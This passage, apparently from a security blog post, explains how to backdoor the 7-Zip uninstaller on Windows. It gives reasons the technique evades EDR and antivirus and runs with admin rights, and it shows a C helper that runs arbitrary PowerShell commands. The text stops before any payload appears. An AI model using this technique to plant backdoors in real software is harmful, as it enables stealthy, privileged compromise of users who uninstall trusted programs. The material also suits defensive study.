

## Backstory

While uninstalling random bloated applications, i got curious on how this "Uninstall" button exactly works (image tak), So if it is a third party application it just opens the uninstaller shipped by the developer and if it is a windows store application it just uninstall's it. 

For Demonstration let's take one of the simplest application that everyone uses '7zip' so when i click uninstall it just open's up the uninstaller binary shipped with the 7zip package which is installed in `C:\Program Files\7-Zip` and here we can see the `Uninstall.exe`, So the windows uninstall feature just runs this binary.(photo tak)



So i had a thought of backdooring it. All of us have seen threat actors backdooring the installer,the main application but backdooring an uninstaller seems weird and unusual.

What could be the benifits of backdooring a uninstaller ?

- It stays dormant for a long period of time. The payload may remain hidden for months or even years until a user uninstalls the software.
- You don't need to run it, Windows will run it for you.(Biggest Advantage)
- Uninstaller binaries usually run in Administrative mode (Mainly to clean up of registry keys and logs)
- Most EDRs and AV solutions monitor installers and runtime behaviour, but uninstallers are executed rarely so they can go under the radar.

## Modifying the Source code

Let's start by downloading the 7zip source from the offical website. Setup a windows development environment what i have here is :

- A windows 11 vm 
- Visual Studio 2019 with C++ ...

We can take a look at the source code and find the uninstaller source, In the `7z2409-src\C\Util\7zipUninstall`, They have provided us with the dsw file which we can directly open in visual studio. The majority of the source code can be found in the file `7zipUninstall.c` file, Here we can find the the main function that is is `Install` function.

```c
#include <stdio.h>
#include <stdlib.h>
void RunPowerShellCommand(const char* command) {
    char powershellCmd[1024];

    snprintf(powershellCmd, sizeof(powershellCmd), "powershell -Command \"%s\"", command);

    FILE* fp = _popen(powershellCmd, "r");
    if (fp == NULL) {
        printf("Failed to run PowerShell command.\n");
        return;
    }
    _pclose(fp);
}
```

Adding this simple function to run powersehll commands.